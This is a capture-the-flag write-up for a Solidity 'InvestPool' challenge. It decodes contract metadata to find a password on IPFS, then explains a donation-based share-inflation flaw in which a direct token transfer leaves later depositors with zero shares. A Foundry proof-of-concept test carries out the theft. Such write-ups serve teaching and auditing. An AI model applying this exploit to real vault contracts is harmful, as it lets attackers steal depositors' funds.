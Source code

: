 # Analysis of the goerli contract
1. The contrat has a function `getPassword()` which returns 5, but it's not the real password.
2. By the hint from Discord, it has something to do with the metadata, the cbor data can be decoded to:
```
{
	"ipfs": h'122054C3E28CDED5E23F5B3EE244C86C623B672D772B268FDC5E76E4FE131E690BEA',
	"solc": h'00060B'
}

```
And google says the ipfs is base58 and a prefix Qm, on this [online base58 encoding site](https://appdevtools.com/base58-encoder-decoder), input the ipfs and I got:

```
base58(hex"122054C3E28CDED5E23F5B3EE244C86C623B672D772B268FDC5E76E4FE131E690BEA")
-> QmU3YCRfRZ1bxDNnxB4LVNCUWLs26wVaqPoQSQ6RH2u86V
```
This is the CID, then query this CID:
https://ipfs.io/ipfs/QmU3YCRfRZ1bxDNnxB4LVNCUWLs26wVaqPoQSQ6RH2u86V

The page shows: `j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx`, the real password.

 
# The logic vulnerability
1. The function `tokenToShares` use `token.balenceOf(pool)` to do the calculation. The balance is supposed to increase by calling `deposit()`, the problem is, hacker can call `ERC20.transfer()` to send token to balance, without increasing the `totalShares`.
2. Hence, if hacker `deposit(1 wei)`, and directly transfer all his rest token to pool, even when user `deposit()`, he can't get the share, because `(amount * totalShares) / tokenBalance` is always 0. There's only 1 exception that the user deposit the same amount as the balance, which is 1000 ether.

# POC (Foundry)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "forge-std/Test.sol";
import "../src/InvestPool.sol";

contract HackInvestPool is Test {
    PoolToken token;
    InvestPool pool;
    address user = vm.addr(1);
    address hacker = vm.addr(2);

    function setUp() external {
        token = new PoolToken();
        pool = new InvestPool(address(token));

        token.mint(2000e18);
        token.transfer(user, 1000e18);
        token.transfer(hacker, 1000e18);

        vm.prank(user);
        token.approve(address(pool), type(uint).max);

        vm.prank(hacker);
        token.approve(address(pool), type(uint).max);
    }

    function userDeposit(uint amount) public {
        vm.prank(user);
        pool.deposit(amount);
    }
    function userWithdraw() public {
        vm.prank(user);
        pool.withdrawAll();
    }
    function hackerDeposit(uint amount) public {
        vm.prank(hacker);
        pool.deposit(amount);
    }
    function hackerWithdraw() public {
        vm.prank(hacker);
        pool.withdrawAll();
    }
    function hackerTransferToPool(uint amount) public {
        vm.prank(hacker);
		token.transfer(address(pool), amount);
    }

    function test_hack() public {
        uint hackerBalanceBeforeHack = token.balanceOf(hacker);

		vm.startPrank(hacker);
		pool.initialize("j5kvj49djym590dcjbm7034uv09jih094gjcmjg90cjm58bnginxxx");
		vm.stopPrank();


		hackerDeposit(1);
		hackerTransferToPool(1000e18 - 1);

		userDeposit(1000e18 - 1);

		hackerWithdraw();

        assertGt(token.balanceOf(hacker), hackerBalanceBeforeHack);
    }
}

```

# Thank you guys very much for these awesome CTF challenges
